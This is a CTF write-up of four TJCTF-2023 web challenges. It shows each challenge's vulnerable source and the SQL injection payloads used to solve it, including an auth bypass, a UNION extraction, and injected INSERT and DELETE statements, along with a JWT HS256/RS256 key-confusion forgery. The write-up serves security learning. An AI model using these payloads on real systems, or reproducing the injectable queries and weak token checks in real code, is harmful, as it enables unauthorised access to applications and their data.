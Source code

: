 # **(Write up) WEB Challenge TJCTF-2023**

* ## [web/swill-squill]

Source code: [here](swill-squill)

```
def create_db():
    conn = sqlite3.connect(':memory:')
    c = conn.cursor()
    ...
    c.execute(
        'CREATE TABLE notes (description text, owner text)')
    c.execute('INSERT INTO notes VALUES (?, ?)',
              ("Saved this flag for safekeeping: "+flag, 'admin'))
```

The flag is in the note column of the description table with the owner as admin.
```
def post_register():
    name = request.form['name']
    grade = request.form['grade']

    if name == 'admin':
        return make_response(redirect('/'))

    res = make_response(redirect('/api'))
    res.set_cookie("jwt_auth", generate_token(name))

    c = conn.cursor()
    c.execute("SELECT * FROM users WHERE name == '"+name+"';")
```
I just replace the username parameter with payload `admin'--` to bypass `if name == 'admin'` and get `jwt_auth`.
```
name = load_token(request.cookies.get('jwt_auth'))['name']

    c = conn.cursor()

    string = "SELECT description FROM notes WHERE owner == '" + name + "';"
```
Then I send a request to /api and read the flag from admin's note.

* ## [web/ez-sql]

Source code: [here](ez-sql)
```
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) {
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```
This challenge has a sql injection vulnerability in the name parameter of API /search.

To bypass `name.length > 6`, I send arrays instead of strings (http://example.com/search?name[0]=aaaaaaa).

And now, name.length=1 (1 element in the array)

<img src= "ezsql/Screenshot 2023-05-27 131537.png">

Check to make sure sql can be injected with simple payload: `name[0]=aaaaaaa%25'--`
<img src= "ezsql/Screenshot 2023-05-27 131800.png">

Extract table name contain flag: name[0]=aaaaaaa%' union select 1, tbl_name FROM sqlite_master--
<img src= "ezsql/Screenshot 2023-05-27 131429.png">

Extract flag:
<img src= "ezsql/Screenshot 2023-05-27 131659.png">

* ## [web/back-to-the-past](TJCTF-2023/back-to-the-past)
Source code: [here](back-to-the-past)

Insecure signature authentication.
```
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, private_key, algorithm="RS256"
    )
def verify_token(token):
    try:
        return jwt.decode(token.encode(), public_key, algorithms=["HS256", "RS256"])
    except:
        return None
```
Public key used to authenticate leaked signature ([public key here](TJCTF-2023/back-to-the-past/static/public_key.pem)). I can use it to generate fake JWT signature using HS256 algorithm.

Then, I send a request to `/retro` with the fake JWT to get the flag (in the fake JWT payload there is a `year` field less than 1970).
```@app.route("/retro")
@login_required()
def retro(user):
    if int(user["year"]) > 1970:
        return render_template("retro.html", flag="you aren't *retro* enough")
    else:
        return render_template("retro.html", flag=flag)
```

Code written by me in Python to generate and validate JWT: [here](TJCTF-2023/back-to-the-past/solution.py)

* ## [web/notes](notes)
Source code: [here](notes)

```
pool.query(`SELECT * FROM notes WHERE user_id = '${req.session.user_id}';`, (err, results) => {
        pool.query(`SELECT * FROM users WHERE id = '${req.session.user_id}';`, (err, users) => {
            res.render('index', { notes: results, user: users[0] || { username: flag } });
        });
    });
```
To get the flag in this challenge, I have to delete the user account row, while that user id still exists in `req.session.userid` variable.

But when the query delete user account is successful or not, `session` is still deleted

My solution to this challenge:

1. Jnject sql into password parameter to /register to create 2 users and create session for user1 on browser A.
```
app.post('/register', (req, res) => {
    if (req.session.user_id)
        return res.redirect('/');

    if (!req.body.username || !req.body.password)
        return res.redirect('/register?e=missing%20fields');

    const id = v4();
    pool.query(`INSERT INTO users (id, username, password) VALUES ('${id}', '${req.body.username}', '${req.body.password}');`, (err, results) => {
        if (err) {
            res.redirect('/register?e=user%20already%20exists');
        } else {
            associateSessionWithUser(id, req.session);
            res.redirect('/');
        }
    });
});
```
Payload:
```
username = user1
password = pass1'), ('idu2', 'user2', 'pass2');-- -
```
2. Login user2 account on browser B.

Now the query will work normally, session for user2 is created

3. In browser A, I send a request to `/user/delete` with `password = incorpass' or username = 'user2'-- -`

```
    const id = req.session.user_id;

    pool.query(`DELETE FROM users WHERE id = '${id}' AND password = '${req.body.password}';`, (err, results) => {

        pool.query(`SELECT * FROM users WHERE id = '${id}' AND password != '${req.body.password}';`, (err, results) => {

            if (err)
                return res.redirect('/?e=an%20error%20occurred');

            if (results.length !== 0)
                return res.redirect('/?e=incorrect%20password');

            sessions[id].forEach(session => {
                session.destroy();
            });
```
`user1` password is wrong, delete query will delete `user2` account, and user1 session.

4. Reload page in browser B

Now the things that still exist include user1 session and user2 account

Reload the page with `user2` session, `username2` will be replaced with `flag`
